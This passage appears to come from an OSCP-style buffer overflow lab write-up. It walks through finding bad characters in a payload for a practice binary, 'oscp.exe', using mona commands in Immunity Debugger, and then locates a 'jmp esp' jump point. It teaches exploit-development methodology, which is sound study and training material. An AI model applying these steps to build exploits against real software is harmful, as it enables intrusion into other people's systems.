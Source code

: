 !mona bytearray -b "\x00\x07"

* Remove \x07 character from "payload" variable in "exploit.py" script.
* Run modified "exploit.py" script.
  * ESP = 0188fa30
* Compare using mona.

!mona compare -f c:\mona\oscp\bytearray.bin -a 0188fa30

![image](../.gitbook/assets/9.png)

* Restart "oscp.exe" in Immunity.
* Generate new bytearray in mona specifying the identified badchars and null byte.

!mona bytearray -b "\x00\x07\x2e"

* Remove \x2e character from "payload" variable in "exploit.py" script.
* Run modified "exploit.py" script.
  * ESP = 019bfa30
* Compare using mona.

!mona compare -f c:\mona\oscp\bytearray.bin -a 019bfa30

![image](../.gitbook/assets/10.png)

* Restart "oscp.exe" in Immunity.
* Generate new bytearray in mona specifying the identified badchars and null byte.

!mona bytearray -b "\x00\x07\x2e\xa0"

* Remove \xa0 character from "payload" variable in "exploit.py" script.
* Run modified "exploit.py" script.
  * ESP = 018ffa30
* Compare using mona.

!mona compare -f c:\mona\oscp\bytearray.bin -a 018ffa30

![image](../.gitbook/assets/11.png)

* Results status returns "Unmodified".
  * This indicates no more badchars exist.

#### **Finding a Jump Point** <a href="#vi6egnuvjwbr" id="vi6egnuvjwbr"></a>

* Run mona command updating -cpb with identified badchars.

!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"

* Finds all "jmp esp" instructions with addresses not containing any specified badchars.